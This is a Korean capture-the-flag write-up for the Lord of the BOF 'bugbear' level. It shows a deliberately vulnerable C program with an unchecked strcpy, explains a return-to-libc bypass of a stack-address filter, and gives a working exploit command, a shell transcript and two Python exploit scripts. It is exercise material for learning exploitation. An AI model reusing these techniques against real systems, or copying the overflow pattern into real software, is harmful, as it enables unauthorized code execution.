 ```yaml
---
title: "[LOB]Level13. bugbear"
tags: [LOB, writeup, RTL]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


[RTL : Return To Library](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack betrayed you!!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

분기문을 통해 RET 부분에 덮여씌워지는 주소 앞주소`\xbf`를 필터링 한다.

즉, `\xbf`로 시작하는 주소를 리턴 주소로 할 수 없다. 그래서 생각나는 기법이**라이브러리 함수를 사용하는 RTL(Return To Library)기법이다.**



##### payload 시나리오 :

"A"*44+"&system()"+"A"*4+"&["/bin/sh"]

```sh
[darkknight@localhost darkknight]$ ldd bugbear
	libc.so.6 => /lib/libc.so.6 (0x40018000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
	
[darkknight@localhost darkknight]$ strings -tx /lib/libc.so.6 | grep "/bin/sh"
  e3ff9 /bin/sh
  e6587 /bin/sh
  e6595 /bin/sh
  e796a /bin/sh
  e81c7 /bin/sh
  e8778 /bin/sh
```

&system : 0x40058ae0

&"/bin/sh" : 0x400fbff9

-----

### 0x02. Exploit

```
[darkknight@localhost darkknight]$ ./bugbear `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@AAAA�@
bash$ my-pass
euid = 513
new divide
bash$ id
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
```



-----



```python
import struct
import os

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/darkknight/bugbear"

system = 0x40058ae0
libc_addr = 0x40018000
bin_sh_offset = 0xe3ff9

payload = "\x90"*44
payload = append(p32(system))
payload = append("\x90"*4)
payload = append(p32(libc_addr + bin_sh_offset))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

```python
import struct
import os

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/darkknight/bugbear"

system = 0x40058ae0
libc_addr = 0x40018000
bin_sh_offset = 0xe3ff9
exit = 0x400391e0

payload = "\x90"*44
payload = append(p32(system))
payload = append(p32(exit))
payload = append(p32(libc_addr + bin_sh_offset))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```



-----

